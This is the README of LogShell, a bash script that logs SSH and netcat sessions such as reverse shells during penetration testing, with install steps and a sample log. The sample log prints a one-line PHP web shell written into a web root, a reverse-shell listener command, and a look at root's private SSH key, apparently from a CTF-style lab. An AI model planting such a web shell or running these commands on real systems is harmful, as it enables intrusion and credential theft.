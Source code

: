 <div align="center">
  <h1>🪵 LogShell 🐚</h1>
  <br/>
  <p><i>Shell script for logging remote shells, by <a href="https://www.brunorochamoura.com/about/">BRM</a>.</i></p>
  <br />
</div>

LogShell is bash script for logging network sessions established via netcat or SSH, such as reverse shells.

It ensures you always have a track of every command ran on a target to look back later.

## Features

- Records shell sessions with timestamped logging.
- Support for Ncat and SSH.
- Preserves color information of the recorded shell output.
- Handles backspaces in user input for clean output.
- Supports automatic detection and logging of session initiation.
- Seamless chains with other tools such as proxychains and rlwrap.
- Easy setup and usage.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/BrunoRochaDev/LogShell.git
```

2. Navigate to the cloned directory:
```bash
cd LogShell
```

3. Make the script executable:
```bash
chmod +x logshell
```

4. (Optional) Move the script to a directory within your $PATH for easier access:
```bash
mv ./logshell /usr/bin
```

5. Run the script with your SSH / netcat command:
```bash
# Initiating SSH session logging
logshell ssh user@127.0.0.1

# Recording a reverse shell with Ncat and rlwrap
logshell rlwrap ncat -lnvp 1337
```

6. View the logs in /tmp/\<target\>.log (log location can be customized within the script):
```
┌──(user㉿kali)-[~]
└─$ cat /tmp/127.0.0.1.log
=============================================================
Shell session via SSH initiated at: 2024-05-30 19:48:41
=============================================================
(19:48:47) $ whoami
(19:48:47) user
(19:49:20) $ ip a
(19:49:20) eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
(19:49:20)         inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
(19:49:20)         inet6 fe80::f816:3eff:fe21:57cf  prefixlen 64  scopeid 0x20<link>
(19:49:20)         ether f8:16:3e:21:57:cf  txqueuelen 1000  (Ethernet)
(19:49:20)         RX packets 150234  bytes 20345763 (19.4 MiB)
(19:49:20)         RX errors 0  dropped 0  overruns 0  frame 0
(19:49:20)         TX packets 134567  bytes 18320456 (17.4 MiB)
(19:49:20)         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
(19:49:50) $ echo '<?=`$_GET[1]`?>' > /var/www/html/web-shell.php
(19:51:03) exit
=============================================================
Shell session via Ncat initiated at: 2024-05-30 19:53:50
=============================================================
(19:54:01) # id
(19:54:01) uid=0(root) gid=0(root) groups=0(root)
(19:56:45) # ls -la .ssh/id_rsa
(19:56:45) -rw-------. 1 root root 0 Nov 20  2023 .ssh/id_rsa
(19:57:44) # cat flag.txt
(19:57:44) FLAG{y0u_607_m3!}
```

## Future Work

- **Expand Compatibility:** Support additional clients and listeners like `socat` and `nc`.

- **Improve Command/Output Differentiation:** Enhance clarity between user input and listener output for better log readability.

- **Enhance TTY Formatting:** Implement better formatting to handle full TTY without artifacts.

## License
This project is licensed under the AGPLv3 License - see the [LICENSE](https://github.com/BrunoRochaDev/LogShell/blob/main/LICENSE) file for details.
